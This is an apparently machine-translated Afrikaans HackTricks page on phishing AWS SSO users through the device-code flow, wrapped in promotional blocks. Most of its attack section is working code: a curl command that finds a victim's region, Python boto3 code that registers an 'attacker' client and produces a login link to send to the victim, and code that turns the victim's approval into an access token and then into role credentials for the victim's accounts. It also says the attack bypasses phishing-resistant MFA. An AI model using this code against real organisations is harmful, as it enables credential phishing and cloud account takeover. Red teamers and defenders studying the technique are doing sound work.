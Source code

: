 # AWS - Identiteitsentrum & SSO Ongeverifieerde Enum

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## AWS-toestelkode-hengelary

Aanvanklik voorgestel in [**hierdie blogpos**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), is dit moontlik om 'n **skakel** aan 'n gebruiker te stuur wat AWS SSO gebruik, sodat as die **gebruiker dit aanvaar**, die aanvaller 'n **token sal kry om die gebruiker te impersoneer** en toegang te verkry tot al die rolle wat die gebruiker in die **Identiteitsentrum** kan toegang verkry.

Om hierdie aanval uit te voer, is die vereistes:

* Die slagoffer moet **Identiteitsentrum** gebruik
* Die aanvaller moet die **subdomein** ken wat deur die slagoffer gebruik word `<victimsub>.awsapps.com/start`

Net met hierdie inligting sal die **aanvaller in staat wees om 'n skakel aan die gebruiker te stuur** wat, indien **aanvaar**, die **aanvaller toegang sal gee tot die AWS-gebruikersrekening**.

### Aanval

1. **Vind die subdomein**

Die eerste stap van die aanvaller is om uit te vind watter subdomein die slagoffermaatskappy in hul Identiteitsentrum gebruik. Dit kan gedoen word deur **OSINT** of **raaiwerk + BF** aangesien die meeste maatskappye hul naam of 'n variasie van hul naam hier sal gebruik.

Met hierdie inligting is dit moontlik om die streek te kry waar die Identiteitsentrum mee opgestel is:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genereer die skakel vir die slagoffer & Stuur dit**

Voer die volgende kode uit om 'n AWS SSO-aanmeldskakel te genereer sodat die slagoffer kan outentiseer.\
Vir die demonstrasie, voer hierdie kode uit in 'n Python-konsole en verlaat dit nie aangesien jy later enkele objekte nodig sal hê om die token te kry:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Wag totdat die slagoffer dit aanvaar**

Indien die slagoffer **reeds aangemeld is by AWS** sal hy net die toestemming hoef te aanvaar, indien hy nie was nie, sal hy **moet aanmeld en dan die toestemming aanvaar**.\
Dit is hoe die promp deesdae lyk:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Kry SSO toegangstoken**

Indien die slagoffer die promp aanvaar het, hardloop hierdie kode om 'n SSO-token te **genereer wat die gebruiker impersoneer**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Die SSO toegangsteken is **geldig vir 8 uur**.

5. **Impersonate die gebruiker**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Hengel die onhengelbare MFA

Dit is pret om te weet dat die vorige aanval **selfs werk as 'n "onhengelbare MFA" (webAuth) gebruik word**. Dit is omdat die vorige **werkstroom nooit die gebruikte OAuth-domein verlaat**. Nie soos in ander hengel aanvalle waar die gebruiker die aanmeldingsdomein moet vervang nie, in hierdie geval is die toestelkode werkstroom voorberei sodat 'n **kode deur 'n toestel bekend is** en die gebruiker selfs op 'n ander masjien kan aanmeld. Indien die aansporing aanvaar word, sal die toestel, net deur **die aanvanklike kode te ken**, in staat wees om **geloofsbriewe vir die gebruiker te herwin**.

Vir meer inligting hieroor [**kyk na hierdie pos**](https://mjg59.dreamwidth.org/62175.html).

### Outomatiese Gereedskap

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Verwysings

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
